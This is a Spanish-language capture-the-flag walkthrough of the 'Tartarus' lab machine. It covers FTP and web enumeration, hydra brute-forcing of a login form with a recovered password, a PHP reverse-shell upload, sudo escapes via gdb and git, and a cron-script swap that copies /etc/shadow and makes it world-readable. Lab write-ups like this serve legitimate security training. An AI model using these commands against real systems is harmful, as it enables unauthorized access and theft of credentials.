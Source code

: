 # Tartarus
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

## Enum
### FTP
El login anonymous esta permitido, conectemosno y veamos 
```
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
```
Accedemos la directorio ... y vemos un file llamado yougotgoodeyes.txt

Lo leemos y su contenido es:

```
/sUp3r-s3cr3t
```
Parece un directorio de la pagina web lo tendremos en cuenta a la hora de enumerar el HTTP

### HTTP

Mirando en robots.txt encontramos lo siguiente
```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```
Un directorio y lo que podria ser un user ''d4rckh''

Si accedemos al directorio en cuestion tenemos una lista de usuarios y una de contraseñas, podemos usarlas para el SSH tal vez

Parece que en el directorio que encontramos antes gracias al FTP tenemos un login, sería otro buen sitio para probar con hydra, parece que al logearnos nos dice si la contraseña o el usuario son incorrectas, que amable sujeto el desarrollador

Pillamos los users validos
```
hydra -L user.txt -P credentials.txt 10.10.193.188 http-post-form '/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!'
```
Enox es un user valido, busquemos ahora su pass

```
 hydra -l enox -P credentials.txt 10.10.193.188 http-post-form '/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!'
 > [80][http-post-form] host: 10.10.193.188   login: enox   password: P@ssword1234
```
Vamo a logearno

### Exploit

Con las credenciales validas para enox nos logeamos y tenemos una opción para subir archivos, parece que no filtra extensiones pero no nos dice donde se almacena vamos a tirar de gobuster
```
/images (Status: 301)
```
Subimos la php reverse shell de Pentest Monkey y estamos dentro

## Privesc

```
User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```
Saltemos a thirtytwo mediante el siguiente comando
```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```
Una vez dentro de thirtytwo vemos lo siguiente
```
User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```
Saltemos a d4rchkh
```
sudo -u d4rckh /usr/bin/git branch --help config
!/bin/sh
```
Ya somos d4rchkh veamos que tenemos a nuestra dispocision

```
-rwxrwxrwx 1 root   root    129 Jul  5 21:45 cleanup.py
```
Ese archivo es sospechoso
```
*/2 *   * * *   root    python /home/d4rckh/cleanup.py
```
Y vemos que se ejecuta en el crontab, vamos a sustituir el script por este
``` 
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
	os.system('cp /etc/shadow /home/d4rckh/shadow ; chmod 777 /home/d4rckh/shadow')
except:
  pass
```
Vemos que funciona, podemos o bien tratar de invocar una reverse shell o crackear el shadow.

Mediante la reverse shell accedemos facilmente como root y ya tenemos la máquina
